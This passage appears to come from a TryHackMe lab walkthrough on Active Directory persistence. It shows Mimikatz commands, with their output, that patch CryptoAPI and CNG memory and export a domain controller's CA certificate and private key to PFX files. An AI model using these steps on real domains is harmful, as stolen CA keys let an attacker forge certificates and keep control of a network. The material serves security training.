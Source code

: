 We can see that there is a CA certificate on the DC. We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable:

```shell-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```

If you get an error, don't worry, it just means someone else executed the patch before you. With these services patched, we can use Mimikatz to export the certificates:

```shell-session
mimikatz # crypto::certificates /systemstore:local_machine /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```

The exported certificates will be stored in both PFX and DER format to disk:

```shell-session
za\administrator@THMDC C:\Users\Administrator.ZA\am0>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\Tools\x64

05/10/2022  12:12 PM    <DIR>          .
05/10/2022  12:12 PM    <DIR>          ..
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx 
```